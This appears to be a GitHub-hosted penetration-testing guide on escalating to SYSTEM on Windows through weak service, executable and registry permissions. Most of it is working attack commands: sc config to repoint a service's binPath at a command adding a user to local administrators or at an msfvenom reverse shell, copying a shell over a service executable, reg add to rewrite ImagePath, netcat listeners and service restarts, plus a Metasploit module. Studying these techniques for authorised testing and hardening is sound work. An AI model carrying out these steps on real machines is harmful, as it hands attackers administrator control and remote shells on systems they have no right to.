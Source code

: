 Windows services are sometimes configured with **weak permissions linked to the service itself**, or to **the directory the service is being run from.**

This can allow attackers to manipulate the service in order to execute arbitrary code when it starts and escalate privileges to SYSTEM.


1.Service BINPath Manupulation
--

The first way to exploit this vulnerability is to change the `BINPath` of the service to an arbitrary executable, so that when the service starts it will execute malicious code in order to grant SYSTEM level access to the machine.

**Identifying Vulnerable Services**

`AccessChk` is a command-line tool for viewing the effective permissions on `files`, `registry keys`, `services`, `processes`, `kernel objects`, and more. This tool will be helpful to identify whether the current user can modify files within a certain service directory.

First, we should transfer the ```accesschk.exe``` binary to the target machine using the different methodes (for example, the python server).

The command below will list all the services that the user `lol` can modify.


```
accesschk.exe -uwcqv "lol" * -accepteula
```
![Screenshot from 2024-09-30 01-12-32](https://github.com/user-attachments/assets/d5e8d9e4-6595-450b-9dcd-70ca119efb58)


`Service All Access` means that the user has full control over this service and therefore it is possible the **properties** of this service to be modified.

The next step is to determine the status of this service, the binary path name and if the service with higher privileges.
```
sc qc apache
```
![Screenshot from 2024-09-30 01-13-01](https://github.com/user-attachments/assets/b9f66d01-85c9-485a-aec2-4b327d263d58)
Since the Apache service is running as Local System this means that the `BINARY_PATH_NAME` parameter can be modified to execute any command on the system.

**Exploit**


We will change the service path in order to add the `lol` user to the local administrators group.

```
sc config "Apache" binPath= "net localgroup administrators lol /add" 
```
#or
We can change the path and set our generated ```shell.exe``` binary by ```msfvenom``` to `BINARY_PATH_NAME` and setup our listener:
```
sc config "Apache" binPath= "C:\Users\lol\Downloads\shell.exe
```
Restarting the service will cause our command to be excuted and add our user `lol` to the administrators group:
```
sc stop Apache
sc start Apache
```
We could verify this:
```
net localgroup administrators
```
2.Metasploit
---

There is metasploit module which can exploit weak service permissions very easily. This module needs to be linked into an existing session.
```
use exploit/windows/local/service_permissions
```

This module will try to identify services that the user has write access on the binary path and if this succeeds, will write a payload in a temporary folder, reconfigure the binary path of the service to point into the payload and not in the original executable and finally will attempt to restart the service in order for the payload to be executed as SYSTEM.



3.Replacing Service Executable
--

The second way to exploit this is to simply replace the executable used by the application with a reverse shell generated using MSFvenom. Write access to the executable is required in order to exploit this vulnerability.



The first thing to do is to verify whether the current user has **access to modify the executable file** used for our vuln service.
```
icacls "Path to service executable" 2>nul
```


**Exploit**



Replacing the service executable with the reverse shell created earlier:
```
copy \path\to\our\shell.exe "Path to vuln service executable"
```

Setting up a Netcat listener:
```
nc -nlvp 1234
```


4.Weak Registry Permissions
---

When a service is created in Windows, there is normally a correspondent registry entry which contains important information about the service. One of which, is the Image Path, which is the path to the binary used by the service.

If the current user **has access to modify this entry**, the service executable can be replaced with a reverse shell generated using MSFvenom.

The service registry keys are stored at the following location:
```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services
```
The following command can be used in Powershell to query service registry keys permission:
```
Get-Acl -Path HKLM:\SYSTEM\CurrentControlSet\Services\<our vuln service> | fl
```



**Exploit**

Replacing the ```Image Path``` for the "Apache" service with the reverse shell created earlier using the following command:
```
reg add "HKLM\SYSTEM\CurrentControlSet\services\Apache" /v ImagePath /t REG_EXPAND_SZ /d C:\Users\lol\Downloads\shell.exe /f
```
Setting up a Netcat listener:

```
nc -nlvp 1234
```
stopping and starting the service grants a SYSTEM level shell:
```
sc stop Apache
sc start Apache
```




Automated scripts such as WinPEAS can also help identify Weak Permissions in services:
--
```
winpeas.exe quiet servicesinfo
```

















